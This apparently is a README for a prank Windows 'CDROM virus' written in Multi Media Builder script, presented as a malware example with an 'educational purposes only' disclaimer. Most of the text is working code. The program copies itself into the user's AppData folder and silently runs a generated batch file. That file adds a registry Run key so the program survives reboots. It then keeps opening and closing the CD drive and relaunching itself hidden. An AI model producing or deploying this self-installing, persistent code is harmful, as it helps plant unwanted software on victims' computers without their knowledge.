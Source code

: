 # CDROM VIRUS
 Malware script example
 A windows 10 maleware that opens and closes cdrom
 written with MMB Multi Media Builder
 
 Download Zip File and open the project with MMB
 
 Disclaimer:

For Educational Purposes Only.
 
Do not use it in real life. 
 
We are not liable to any user for

Loss, injury, claim, liability or damages of any kind, as a result of using tutorials or other information on the website.

Special, direct, incidental, punitive, exemplary or consequential damages of any kind whatsoever in any way due, as a result of using or inability for using the website or its contents.

Any third party websites or contents therein directly or indirectly accessed through links in the Site, including but not limited to any errors in or omissions.

```
** run the script on app start
RunScript("pageload")
```

```
** checks registery to see if the maleware already exists or not
** and install the app
InstFlag=1
LoadVariable("Installed","InstFlag ")
If (InstFlag=1) Then
  RunScript("run")
Else
  RunScript("install")
  InstFlag=1
  SaveVariable("Installed"," InstFlag")
End
RunScript("install")
```

```
** copy maleware to the target
** and create a bat file to register app in registery in order to run on start up
string$=<Temp>
substring$='\Temp\\'
RetVal=POS(substring$,string$)+1
localSystemDirectory$=StrCopy(string$,0,RetVal)
currentRoot$='<SrcDir>\\'+CBK_AppFileName
dest$ = localSystemDirectory$+CBK_AppFileName
FileExist("dest$","check")
If (check=1) Then
Else
  SysCommand("CopyFile","currentRoot$,dest$")
End
batFile$=localSystemDirectory$+CBK_AppFileName+'.bat'
regString$= 'REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "My App" /t REG_SZ /F /D '+'"'+dest$+'"'
ReturnVal=StrToFile(batFile$,regString$,FALSE,FALSE)
Run("batFile$","HIDE")
```
This Code will copy the maleware to C:\Users\User\AppData\Local and creates and run a bat file as below:
```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "My App" /t REG_SZ /F /D "C:\Users\user\AppData\Local\maleware.exe"
```

Then runs the main code and ejects or close DVD/CD drive:
```
opened=1
LoadVariable("cdst","opened")
If (opened=1) Then
  opened=0
  SaveVariable("cdst"," opened")
  MCICommand("set cdaudio door closed")
Else
  RunScript("install")
  opened=1
  SaveVariable("cdst"," opened")
  MCICommand("set cdaudio door open")
End
currentRoot$='<SrcDir>\\'+CBK_AppFileName
Run("currentRoot$","HIDE")
ExitTimer("1000")
```
